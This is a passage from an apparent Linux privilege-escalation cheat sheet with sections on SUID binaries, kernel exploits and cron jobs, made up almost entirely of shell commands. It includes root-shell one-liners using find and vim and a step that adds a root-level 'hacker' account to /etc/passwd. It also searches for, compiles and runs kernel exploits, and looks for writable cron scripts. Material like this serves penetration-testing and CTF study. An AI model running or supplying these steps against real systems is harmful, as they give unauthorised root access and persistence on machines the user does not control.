 ### 2. SUID Binaries
```bash
# Find SUID binaries
find / -type f -perm -4000 2>/dev/null

# Common SUID escalations:

# find (rare but exists)
find . -exec /bin/sh -p \; -quit

# vim/nano (if SUID)
vim.tiny
:set shell=/bin/sh
:shell

# cp (copy /etc/passwd, modify, copy back)
cp /etc/passwd /tmp/passwd.bak
echo 'hacker:$6$salt$hash:0:0:root:/root:/bin/bash' >> /tmp/passwd.bak  
cp /tmp/passwd.bak /etc/passwd

# Custom SUID binaries - check with strings
strings /path/to/suid-binary
```

### 3. Kernel Exploits
```bash
# Get kernel version and OS info
uname -a
cat /etc/os-release
cat /proc/version

# Search for kernel exploits
searchsploit linux kernel $(uname -r)
searchsploit ubuntu $(lsb_release -rs)

# Common kernel exploits:
# - DirtyCow (CVE-2016-5195)
# - Ubuntu 16.04 - 8.3.0 (CVE-2017-16995)
# - Ubuntu 14.04/16.04 (CVE-2017-1000112)

# Compile exploits (if gcc available)
gcc exploit.c -o exploit
./exploit
```

### 4. Cron Jobs
```bash
# Check cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron*
cat /etc/cron.d/*
cat /var/log/cron*

# Check for writable cron scripts
ls -la /etc/cron.hourly/
ls -la /etc/cron.daily/  
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# Monitor running processes (use pspy)
./pspy64

```